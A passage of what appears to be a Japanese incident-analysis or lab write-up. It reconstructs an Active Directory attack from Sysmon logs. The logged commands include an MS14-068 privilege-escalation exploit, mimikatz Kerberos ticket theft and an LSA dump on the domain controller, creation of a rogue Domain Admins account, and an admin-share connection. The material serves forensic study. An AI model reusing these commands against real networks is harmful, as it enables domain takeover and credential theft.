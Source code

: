 ```
CommandLine: cmd /c ""echo $p = New-Object System.Net.WebClient > C:\Intel\Logs\p.ps1"
```

#### ⑤ MS14-068を用いた権限昇格
```
2019/11/07 15:26:37,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\ms14068\ms14-068.exe -u maebashi.gunma@example.co.jp -s S-1-5-21-1524084746-3249201829-3114449661-1127 -d win-wfbhibe5gxz -p p@ssw0rd""
```

#### ⑥ TGTチケットの回収
maebashi.gunmaのTGTチケットを取り出し回収した
```
2019/11/07 15:27:58,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\mz.exe ""kerberos::ptc TGT_maebashi.gunma@example.co.jp.ccache"" exit > C:\Intel\Logs\m.txt""
```

#### ⑦　machida.kanagawaユーザの作成とドメインユーザへの加入
```
2019/11/07 15:29:37,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""net user machida.kanagawa h4ckp@ss /add /domain""

2019/11/07 15:29:58,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""net groups ""Domain Admins"" machida.kanagawa /add /domain""
```

#### ⑧ DCに対するmimikatzの実行
1. 管理者共有によるDCへの接続(Jドライブとして割り当てられた)
```
2019/11/07 15:31:02,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""net use j: \\192.168.16.1\c$ h4ckp@ss /user:example.co.jp\machida.kanagawa""
```
2. mz.exe(mimikatz)のDCへの設置
```
2019/11/07 15:31:17,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""copy C:\Intel\Logs\mz.exe J:\Windows\Temp\mz.exe""
```
3. b.batの実行(mimikatzの実行)
```
2019/11/07 15:34:29,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\b.bat""
```
* b.batの中身(DC上でのmimikatzのlsaダンプ実行)
```
cat Sysmon.csv | grep "b.bat" -B 16 | grep -e CommandLine -e 情報 | grep -v ParentCommandLine | sed "s/情報,/\n/g"
```
